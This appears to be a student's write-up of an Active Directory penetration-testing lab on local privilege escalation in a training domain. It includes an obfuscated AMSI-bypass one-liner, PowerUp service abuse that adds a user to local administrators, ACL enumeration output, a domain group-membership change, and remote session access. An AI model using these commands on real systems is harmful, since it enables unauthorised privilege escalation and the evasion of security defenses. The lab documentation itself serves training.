








# Hands-on 5: Local Privilege Escalation

- [Hands-on 5: Local Privilege Escalation](#hands-on-5-local-privilege-escalation)
  - [Tasks](#tasks)
  - [Exploit a service on studentx and elevate privileges to local administrator](#exploit-a-service-on-studentx-and-elevate-privileges-to-local-administrator)
  - [Identify a machine in the domain where studentuserx has local administrative access due to group membership](#identify-a-machine-in-the-domain-where-studentuserx-has-local-administrative-access-due-to-group-membership)

---

## Tasks

- Exploit a service on studentx and elevate privileges to local administrator. 
- Identify a machine in the domain where studentuserx has local administrative access due to group membership.

<br/>

---

## Exploit a service on studentx and elevate privileges to local administrator

First import PowerUp.ps1:

```
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType('System.Management.Automation.'+$([chAR]([BYte]0x41)+[cHAr](109)+[ChAR](12650/110)+[CHAr](105))+'Utils').GetField($([cHAR]([bYte]0x61)+[CHAR](144-35)+[ChAR]([byTE]0x73)+[Char]([byTE]0x69)+[CHar](67)+[chaR](14+97)+[chaR](77+33)+[char](91+25)+[chAr](2424/24)+[cHAR](126-6)+[chAR]([BYTe]0x74)),[Reflection.BindingFlags]'NonPublic,Static').GetValue($null),0x39AF8D70);
```

```
. C:\AD\Tools\PowerUp.ps1
```

<br/>

Run all checks:

```
Invoke-AllChecks
```

  

- Vulnerable Serivce: `ALG`

<br/>

Use the ServiceAbuse function to add `us\studentuser64` into local admin group:

```
Invoke-ServiceAbuse -Name 'ALG' -Command 'net localgroup administrators us\studentuser64 /add'
```

  

<br/>

Check the local admins group:

```
net localgroup administrators
```

  

<br/>

---

## Identify a machine in the domain where studentuserx has local administrative access due to group membership

`Find-LocalAdminAccess` won't return any result.

<br/>

Check group membership of the current user:

```
Get-DomainGroup -UserName studentuser64 | Select distinguishedname
```

  

<br/>

Check interesting ACLs:

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{ ($_.IdentityReferenceName -match "manager") -or ($_.IdentityReferenceName -match "studentusers") -or ($_.IdentityReferenceName -match "maintenanceusers") }
```

Results:

```
ObjectDN                : CN=Support59User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Support60User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Support61User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Support62User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Support63User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Support64User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Support65User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Support66User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Support67User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Support68User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Support69User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Support70User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : OU=MailMgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ReadProperty, ExtendedRight
ObjectAceType           : ms-Mcs-AdmPwd
AceFlags                : ContainerInherit, InheritOnly
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=US-MAILMGMT,OU=MailMgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ReadProperty, ExtendedRight
ObjectAceType           : ms-Mcs-AdmPwd
AceFlags                : ContainerInherit, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Windows Virtual Machine,CN=US-MAILMGMT,OU=MailMgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ReadProperty, ExtendedRight
ObjectAceType           : ms-Mcs-AdmPwd
AceFlags                : ContainerInherit, InheritOnly, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ReadProperty, WriteProperty
ObjectAceType           : Self-Membership
AceFlags                : ContainerInherit, InheritOnly
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : CreateChild, DeleteChild
ObjectAceType           : Group
AceFlags                : ContainerInherit
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : All
AceFlags                : ContainerInherit, InheritOnly
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=US-MGMT,OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ReadProperty, WriteProperty
ObjectAceType           : Self-Membership
AceFlags                : ContainerInherit, InheritOnly, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=US-MGMT,OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : CreateChild, DeleteChild
ObjectAceType           : Group
AceFlags                : ContainerInherit, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=US-MGMT,OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : All
AceFlags                : ContainerInherit, InheritOnly, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Windows Virtual Machine,CN=US-MGMT,OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ReadProperty, WriteProperty
ObjectAceType           : Self-Membership
AceFlags                : ContainerInherit, InheritOnly, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Windows Virtual Machine,CN=US-MGMT,OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : CreateChild, DeleteChild
ObjectAceType           : Group
AceFlags                : ContainerInherit, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=Windows Virtual Machine,CN=US-MGMT,OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : All
AceFlags                : ContainerInherit, InheritOnly, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ReadProperty, WriteProperty
ObjectAceType           : Self-Membership
AceFlags                : ContainerInherit, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : CreateChild, DeleteChild
ObjectAceType           : Group
AceFlags                : ContainerInherit, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

ObjectDN                : CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : All
AceFlags                : ContainerInherit, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

```

<br/>

  

`manager` has `GenericAll` access to the domain object (Group) `CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local`.

<br/>

Check the Domain Group `MachineAdmins`:

```
Get-DomainGroup "MachineAdmins"
```

  

- This group can manage machines of the MGMT OU according to the description

<br/>

Add `studentuser64` into the group `MachineAdmins`:

```
net group machineadmins studentuser64 /add /domain
```

  

<br/>

Look for Domain Computers in the OU `Mgmt`:

```
Get-DomainComputer | ?{$_.distinguishedname -match "OU=mgmt,"} | select distinguishedname, dnshostname
```

  

<br/>

Logout and login again, and then try to access `us-mgmt.us.techcorp.local` using `Enter-PSSession`:

```
Enter-PSSession -ComputerName us-mgmt.us.techcorp.local
```

  

Note:<br/>
We can also use `winrm -r:us-mgmt cmd.exe`.

<br/>

---